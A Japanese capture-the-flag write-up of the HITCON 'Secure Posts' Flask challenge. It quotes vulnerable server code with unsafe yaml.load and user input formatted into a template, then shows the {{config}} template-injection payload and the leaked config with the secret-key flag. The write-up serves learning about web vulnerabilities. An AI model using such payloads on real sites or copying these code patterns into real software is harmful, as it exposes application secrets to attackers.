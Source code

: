 # 問題文

```
Secure Posts

Description
Here is a service that you can store any posts. Can you hack it?
```

# 概要
書籍に関するコメントを投稿するサービスが動いているサーバーからflagを回収する。

# 問題のサーバーにアクセス
すると、コメント投稿部分を持つアプリが動いている。
またソースコードへのリンクがあるので、そこからサーバーアプリのコードを読む。

* python、flaskで出来ている
* json, yamlのどちらかで、コメントを投稿して表示するアプリ
* pickle, evalは、危険だという事で、使えなくなるようにコメントアウトされている
* yamlがユーザーの入力をそのままdumpしたりloadしているので、おそらく狙えるポイントの一つ
* 他にも以下のnameのように、ユーザー入力がそのままrenderされている部分がある

```py
(省略)
# init app
app = Flask(__name__)
app.secret_key = config.flag1
accept_datatype = ['json', 'yaml']
(省略)

def load_yaml(data):
    import yaml
    return yaml.load(data)
(省略)

def render_template(filename, **args):
    with open(safe_join(app.template_folder, filename)) as f:
        template = f.read()
    name = session.get('name', 'anonymous')[:10]
    return render_template_string(template.format(name=name), **args)
(省略)

def load_posts():
    handlers = {
        # disabled insecure data type
        #"eval": load_eval,
        #"pickle": load_pickle,

        "json": load_json,
        "yaml": load_yaml
    }

    datatype = session.get("post_type", config.default_datatype)
    data = session.get("post_data", config.default_data)

    if datatype not in handlers: abort(403)
    return handlers[datatype](data)
```

flaskには、どうやらrender時にユーザー入力が来ていると困る場面があるらしい
* [Injecting Flask](https://nvisium.com/blog/2015/12/07/injecting-flask/)
* [Exploring SSTI in Flask/Jinja2](https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2/)

とはいえ、今回はname部分は10文字しか入らないので、大した事は出来ない。
とりあえず、設定でも見てみようと、Authorに以下を入力して投稿する。(コード上では、nameにAuthorの値が入るため）

```
{{config}}
```

すると、以下のようにalertが表示されOKを押すと、Author部分に以下が入って返ってくる
```
<Config {'SESSION_COOKIE_SECURE': False, 'DEBUG': False, 'SESSION_COOKIE_NAME': 'session', 'JSONIFY_PRETTYPRINT_REGULAR': True, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PREFERRED_URL_SCHEME': 'http', 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SERVER_NAME': None, 'SEND_FILE_MAX_AGE_DEFAULT': 43200, 'TRAP_HTTP_EXCEPTIONS': False, 'MAX_CONTENT_LENGTH': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_AS_ASCII': True, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SESSION_COOKIE_DOMAIN': None, 'USE_X_SENDFILE': False, 'APPLICATION_ROOT': None, 'SESSION_COOKIE_HTTPONLY': True, 'LOGGER_NAME': 'post_manager', 'SESSION_COOKIE_PATH': None, 'SECRET_KEY': 'hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}', 'JSON_SORT_KEYS': True}>
```

# flag

```
hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}
```

# Secure Posts2は解けず・・・。
同一サーバー、同一問題文だったので、おそらく別の解法で、app.secret_keyを表示すると推測。
『yaml, eval, シリアライズ, open辺りは狙い目になる事が多いし、このコードだとyamlかな〜？』と以下のページを見て試行錯誤をしていたが、うまくいかず。。。

* [Dangerous Python Functions, Part 2](https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html)
